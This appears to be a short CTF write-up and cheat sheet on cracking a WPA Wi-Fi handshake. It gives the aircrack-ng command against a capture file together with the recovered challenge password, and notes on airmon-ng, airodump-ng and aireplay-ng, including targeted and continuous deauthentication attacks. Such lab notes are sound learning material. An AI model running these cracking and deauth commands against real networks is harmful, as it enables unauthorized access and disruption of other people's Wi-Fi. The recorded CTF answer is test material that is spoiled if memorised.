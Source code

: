 # Solving the ctf 
1. `sudo aircrack-ng -w /usr/share/wordlists/rockyou.txt -b 02:1A:11:FF:D9:BD -e 'James Honor 8' NinjaJc01-01.cap`
2. found the password: greeneggsandham

---

## Armon-ng(used to change interaces into monitor mode)
  - monitor mode: `sudo airmon-ng start wlan0` (assuming wlan0 is your interface's name)
  - the name will likely be: `wlan0mon`
  - kill processes using that network adapter: `airmon-ng check kill`

---

## Airodump-ng(captures packets from an interface in monitor mode)
  - `sudo airodump-ng wlan0mon`

---

## Aircrack-ng(captures the hash of the passphrase from the 4-way-handshake)
  - Important switches
  ```sh
  -b (to specify the bssid)
  -e (to specify the essid)
  -w (to specify a wordlist)
  ```

  - example use: `sudo aircrack-ng -w /usr/share/wordlists/rockyou.txt -b 00:11:22:33:44:55 capture.cap`

 ---

## Aireplay-ng(force the clients to deauth to speed up the process of getting the passwd hash)
  
  ### deauthenticate specific client:
  <details closed>
    - example use: `sudo aireplay-ng --deauth 10 -a 00:11:22:33:44:55 -c AA:BB:CC:DD:EE:FF wlan0mon`

    - `--deauth 10`: Sends 10 deauthentication packets.
    - `-a 00:11:22:33:44:55`: The MAC address of the target access point.
    - `-c AA:BB:CC:DD:EE:FF`: The MAC address of the client to deauthenticate.
    - `wlan0mon`: Yor wireless interface in monitor mode
  </details>

  ### deauthenticate all clients:
  <details closed>
    - example use: `sudo aireplay-ng --deauth 0 -a 00:11:22:33:44:55 wlan0mon`

    - `--deauth 0`: Sends deauthentication packets continuously (0 means infinite).
    - `-a 00:11:22:33:44:55`: The MAC address of the target access point.
    - `wlan0mon`: Your wireless interface in monitor mode.
  </details>
